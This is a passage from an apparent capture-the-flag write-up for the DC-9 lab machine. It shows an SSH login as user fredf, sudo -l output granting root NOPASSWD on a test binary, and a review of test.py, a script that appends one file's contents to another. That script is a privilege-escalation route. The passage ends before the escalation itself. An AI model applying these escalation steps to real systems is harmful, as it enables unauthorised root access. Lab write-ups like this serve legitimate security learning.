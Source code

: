 ## Pivot to fredf Account

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ ssh fredf@192.168.160.209
fredf@192.168.160.209's password:
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
fredf@dc-9:~$ which python

```

## Sudo -l

```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test

```

We can run /opt/devstuff/dist/test/test with sudo privileges.

If we try to execute /opt/devstuff/dist/test/test it shows the usage.

```bash
fredf@dc-9:/opt/devstuff/dist/test$ ./test
Usage: python test.py read append

```

We can find the _test.py_ file in _/opt/devstuff/_

```bash
fredf@dc-9:/opt/devstuff/dist/test$ find / -name test.py 2>/dev/null
/opt/devstuff/test.py

```

Reviewing _test.py_ it shows that it reads a file and appends to that file.

```bash
fredf@dc-9:/opt/devstuff$ cat test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```